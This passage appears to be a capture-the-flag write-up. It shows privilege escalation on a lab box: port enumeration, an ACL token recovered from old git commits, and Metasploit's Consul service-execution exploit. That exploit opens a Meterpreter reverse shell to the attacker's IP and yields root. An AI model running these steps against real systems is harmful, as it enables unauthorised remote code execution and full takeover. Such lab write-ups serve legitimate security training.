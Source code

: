 Enumerating network connections to the box as well as looking in ```/opt``` will show that that Hashicorps Consul API is running. 
```bash
$ netstat -anlp | grep -i listen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -  
[TRUNCATED]

$ curl localhost:8500
Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart.
```
After doing a bit of research, I found there is a CVE that gives command execution, but I need permission to call the API first....
Checking out ```/opt``` shows a directory (```/opt/my-app```) that contains a .git file -> maybe there's something interesting in the past commits? 
Use a desktop app (I used GitHub Desktop) to view past commits in this repository:
![[Pasted image 20221025202844.png]]
Excellent! It contains an access token for calling the API
Now, I can use meterpreter to get a root shell
*Note I don't normally like using meterpreter but I didn't have any luck finding a PoC for this CVE online :(*
```bash
msf6 exploit(multi/misc/consul_service_exec) > set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
# Since this API is only exposed internally, I used an SSH tunnel with ports 8500
msf6 exploit(multi/misc/consul_service_exec) > set RHOSTS localhost
msf6 exploit(multi/misc/consul_service_exec) > set LHOST 10.10.14.12
msf6 exploit(multi/misc/consul_service_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Creating service 'yxgZXgpB'
[-] Exploit aborted due to failure: unexpected-reply: An error occured when contacting the Consul API.
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Creating service 'tREBZ'
[*] Service 'tREBZ' successfully created.
[*] Waiting for service 'tREBZ' script to trigger
[*] Sending stage (989032 bytes) to 10.10.11.183
[*] Meterpreter session 2 opened (10.10.14.12:4444 -> 10.10.11.183:38732) at 2022-10-25 20:31:46 -0500
[*] Removing service 'tREBZ'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Session 2 created in the background.
# Not sure why msf backgrounds these by default but whatever
msf6 exploit(multi/misc/consul_service_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 5209 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```
